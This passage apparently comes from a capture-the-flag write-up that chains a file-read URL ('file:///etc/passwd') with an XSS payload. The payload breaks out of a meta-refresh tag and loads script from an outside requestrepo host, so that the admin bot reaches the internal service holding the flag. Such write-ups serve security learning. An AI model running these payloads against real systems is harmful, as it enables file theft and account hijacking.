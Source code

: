 Allowing us to create an user with a malicious url like `file:///etc/passwd#/verify.txt`. And the curl output will actually be displayed to us, which is nice. What do we want to read though? Well, there's a TokenStore in `token.db` which saves all the SSO tokens that are generated for the 2 services. 

We care about the token because the admin bot creates a token for the internal service, but doesn't consume it:
```ts
const page: Puppeteer.Page = await bot.newPage();
await page.setExtraHTTPHeaders({ "X-Internal": "true" });
await page.goto(
    `${process.env.AUTH_HOST}/api/v1/authorize.oauth2?client_id=internal&redirect_uri=&response_type=code&scope=all`
);
await page.type(
    "input[name=username]",
    process.env.ADMIN_USERNAME
);
await page.type(
    "input[name=password]",
    process.env.ADMIN_PASSWORD
);
await page.click("button[type=submit]");
await page.waitForNavigation();
await page.goto(`${process.env.AUTH_HOST}/api/v1/logout`);
```

Next step is finding an XSS in the external/internal service (they're the same basically, but only the admin bot can access the internal service that has the flag).

There is a nice redirect in `/login` in the service:
```py
@app.route("/login", methods=["GET"])
def login():
    if session.get("access_token") == None:
        return render_template("login.html", oauth_url=AUTH_REDIRECT_URL)

    return_url = escape(request.args.get("return_url", "/"))
    timeout = escape(request.args.get("timeout", "0"))
    return render_template(
        "redirect.html",
        msg=f"<meta http-equiv='refresh' content='{timeout};url={return_url}'>redirect to page in {timeout} seconds...",
    )
```

Where `escape` is this custom function:
```py
def escape(s):
    return re.sub(r"hx", "sanitized", s.replace(">", "&gt;").replace("<", "&lt;"), flags=re.I)
```

So we can't use `hx` for XSS, but we can escape the single quotes and we can get a payload from [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) so my payload for XSS ends up looking like this:
```
/login?return_url='' id=x tabindex=0 autofocus onfocusin='var a=document.createElement(`script`);a.src=`//oczapvny.requestrepo.com`;document.head.append(a);' style='display:block&timeout='
```
